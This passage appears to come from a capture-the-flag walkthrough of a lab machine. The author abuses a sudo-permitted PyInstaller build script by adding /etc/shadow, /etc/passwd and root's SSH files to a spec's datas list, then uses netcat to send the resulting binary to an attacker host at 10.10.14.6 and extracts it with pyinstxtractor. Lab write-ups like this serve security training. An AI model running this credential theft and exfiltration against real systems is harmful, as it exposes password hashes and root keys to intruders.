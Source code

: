 
#### Modify Spec

I don’t have permissions to edit this file, but I’ll copy it to another file,
and edit it to include some `datas`:

    
    
        ...[snip]...
        datas=[('/etc/shadow', '.'), ('/etc/passwd', '.'), ('/root/*', '.'), ('/root/.ssh/*', '.')],
        ...[snip]...
    

Now I’ll run that:

    
    
    tkeller@socket:~$ sudo build-installer.sh build /tmp/0xdf.spec 
    267 INFO: PyInstaller: 5.6.2
    ...[snip]...
    

It runs without issue.

#### Exfil

I’ll exfil the binary back to my host with `nc`:

    
    
    tkeller@socket:~$ cat /opt/shared/dist/qreader | nc 10.10.14.6 443
    

At my host:

    
    
    oxdf@hacky$ nc -lnvp 443 > modfile
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.206 40194
    ^C
    

This just hangs, so after a few seconds, I’ll kill it, and check the hashes of
each:

    
    
    tkeller@socket:/dev/shm$ md5sum qreader 
    acd4d1b688fa7ba05f98741d89c0ab43  qreader
    
    
    
    oxdf@hacky$ md5sum modfile 
    acd4d1b688fa7ba05f98741d89c0ab43  modfile
    

#### Extract

I’ll use `pyinstxtractor` to pull out the files:

    
    
    oxdf@hacky$ python3.10 /opt/pyinstxtractor/pyinstxtractor.py modfile 
    [+] Processing modfile
    [+] Pyinstaller version: 2.1+
    [+] Python version: 3.10
    [+] Length of package: 6466212 bytes
    [+] Found 44 files in CArchive
    [+] Beginning extraction...please standby
    [+] Possible entry point: pyiboot01_bootstrap.pyc
    [+] Possible entry point: pyi_rth_inspect.pyc
    [+] Possible entry point: pyi_rth_subprocess.pyc
    [+] Possible entry point: 0xdf.pyc
    [+] Found 97 files in PYZ archive
    [+] Successfully extracted pyinstaller archive: modfile
    